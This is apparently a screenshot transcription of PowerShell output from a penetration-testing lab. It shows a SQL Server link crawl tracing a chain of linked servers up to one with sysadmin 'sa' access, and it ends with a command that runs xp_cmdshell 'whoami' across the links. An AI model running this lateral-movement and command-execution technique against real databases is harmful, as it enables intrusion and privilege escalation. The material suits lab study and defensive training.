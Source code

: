```
VERBOSE:  - Link Path to server: DCORP-MSSQL -> DCORP-SQL1
VERBOSE:  - Link Login: dblinkuser
VERBOSE:  - Link IsSysAdmin: 0
VERBOSE:  - Link Count: 1
VERBOSE:  - Links on this server: DCORP-MGMT
VERBOSE: dcorp-mssql : Connection Success.
VERBOSE: dcorp-mssql : Connection Success.
VERBOSE: --------------------------------
VERBOSE:  Server: DCORP-MGMT
VERBOSE: --------------------------------
VERBOSE:  - Link Path to server: DCORP-MSSQL -> DCORP-SQL1 -> DCORP-MGMT
VERBOSE:  - Link Login: sqluser
VERBOSE:  - Link IsSysAdmin: 0
VERBOSE:  - Link Count: 1
VERBOSE:  - Links on this server: EU-SQL.EU.EUROCORP.LOCAL
VERBOSE: dcorp-mssql : Connection Success.
VERBOSE: dcorp-mssql : Connection Success.
VERBOSE: --------------------------------
VERBOSE:  Server: EU-SQL
VERBOSE: --------------------------------
VERBOSE:  - Link Path to server: DCORP-MSSQL -> DCORP-SQL1 -> DCORP-MGMT -> EU-SQL.EU.EUROCORP.LOCAL
VERBOSE:  - Link Login: sa
VERBOSE:  - Link IsSysAdmin: 1
VERBOSE:  - Link Count: 0
VERBOSE:  - Links on this server:

Version     : SQL Server 2017
Instance    : DCORP-MSSQL
CustomQuery :
Sysadmin    : 0
Path        : {DCORP-MSSQL}
User        : dcorp\student503
Links       : {DCORP-SQL1}

Version     : SQL Server 2017
Instance    : DCORP-SQL1
CustomQuery :
Sysadmin    : 0
Path        : {DCORP-MSSQL, DCORP-SQL1}
User        : dblinkuser
Links       : {DCORP-MGMT}

Version     : SQL Server 2017
Instance    : DCORP-MGMT
CustomQuery :
Sysadmin    : 0
Path        : {DCORP-MSSQL, DCORP-SQL1, DCORP-MGMT}
User        : sqluser
Links       : {EU-SQL.EU.EUROCORP.LOCAL}

Version     : SQL Server 2017
Instance    : EU-SQL
CustomQuery :
Sysadmin    : 1
Path        : {DCORP-MSSQL, DCORP-SQL1, DCORP-MGMT, EU-SQL.EU.EUROCORP.LOCAL}
User        : sa
Links       :

PS C:\Windows\system32> Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query "exec master..xp_cmdshell 'whoami'" | ft

```
